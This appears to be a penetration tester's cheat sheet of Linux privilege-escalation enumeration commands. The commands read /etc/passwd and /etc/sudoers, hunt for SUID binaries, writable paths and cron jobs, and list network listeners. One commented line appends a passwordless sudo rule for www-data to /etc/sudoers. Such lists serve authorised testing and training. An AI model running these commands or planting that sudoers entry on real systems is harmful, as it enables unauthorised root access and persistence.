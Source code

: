 // LINUX PRIVESC ENUMERATION
whoami && id && hostname
sudo su -
sudo -l
ls -lisah /etc/passwd
cat /etc/passwd | cut -d: f1
cat /etc/sudoers
	# echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
uname -a && cat /etc/*-release && arch
uname -a && cat /etc/issue && arch
ps aux | grep root
ls /usr/local/
ls /usr/local/src
ls /usr/local/bin
ls /opt/
ls /home
ls /var
ls /usr/src/
dpkg -l
rpm	-qa 
pkg_info
netstat -antp | grep 127.0.0.1
netstat -tulnpe
ip a 
ifconfig a
/sbin/route
ss -anp
grep -Hs iptables /etc/*			
cat /etc/iptables-backup
ls -lah /etc/cron*	
cat /etc/crontab
crontab -l	
grep "CRON" /var/log/cron.log
find / -perm -1000 -type d 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
	# GTFOBINS.com; LOLBINS
find / -writable -type d 2>/dev/null
find /etc/ -readable -type f 2>/dev/null
cat /etc/fstab
mount		
cat /etc/fstab	
/bin/lsblk
cat /etc/export
cd /srv/
lsmod
/sbin/modinfo <module>
